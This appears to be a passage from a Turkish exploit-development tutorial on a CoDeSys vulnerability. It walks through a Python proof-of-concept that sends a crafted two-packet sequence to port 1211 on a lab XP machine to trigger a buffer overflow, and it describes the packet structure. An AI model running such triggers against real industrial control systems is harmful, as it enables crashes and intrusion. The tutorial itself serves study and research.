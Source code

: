 ## Zafiyetin Keşfi
Uzunca anlatmadan önce açığı tetiklemek için gereken kodu göstereyim, ardından o kod üzerinden kısa bir inceleme yapıp sonunda exploiti yazalım.


    #!/usr/bin python
    # -*- coding:utf-8 -*-

    import struct
    from socket import *

    host = "192.168.20.129"
    port = 1211
    adres = (host,port)

    Baglanti = socket(AF_INET,SOCK_STREAM)
    Baglanti.connect(adres)

    #Burası tanımlayıcı paketin yapısı
    mesaj = "\xDD\xDD"              #Magic Number, paketi doğruluyor.
    mesaj += "CDEFGHIJKLMN"         #Junk
    mesaj += struct.pack("L", 3004) #Son 4 byte ikinci paketin boyutu (L = long = 4 byte)
    Baglanti.send(mesaj)            #Toplam 18 byte

    #İkinci paket
    boyut = 3004
    mesaj2  = struct.pack("L", 4)   #4 Byte, 4. 6. caselerde GBufferedFileSerDev var.
    mesaj2 += "A" * (boyut-len(mesaj2))

    Baglanti.send(mesaj2)
    Baglanti.close()

`192.168.20.129` adresli *XP* sanal makinada çalışan *CodeSys* programının kendine ait bir paket yapısı var. Bu paket yapısını görebilmek için yapmanız gereken *Windbg* ve *IDA* ile kodları incelemek. Kısaca bahsetmem gerekirse program iki adet paket alıyor. Bunlardan ilki paketin doğruluğunu ve diğer paketin boyutunu belirmek için kullanılıyor. Aşağıdaki resimde bu doğrulamaların bir kısmını görüyorsunuz.

![](/files//magicbyte.png)
